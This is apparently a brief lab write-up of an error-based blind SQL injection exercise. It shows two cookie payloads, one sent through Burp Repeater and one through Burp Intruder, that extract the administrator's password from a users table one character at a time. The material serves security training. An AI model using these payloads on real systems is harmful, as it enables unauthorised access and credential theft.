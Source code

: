 ### *Repeater*

* Cookie: TrackingId=Cqduog6aHApTYY1C'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';

![alt text](image-39.png)

### *Intruder*

* Cookie: TrackingId=Cqduog6aHApTYY1C'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';

![alt text](image-40.png)
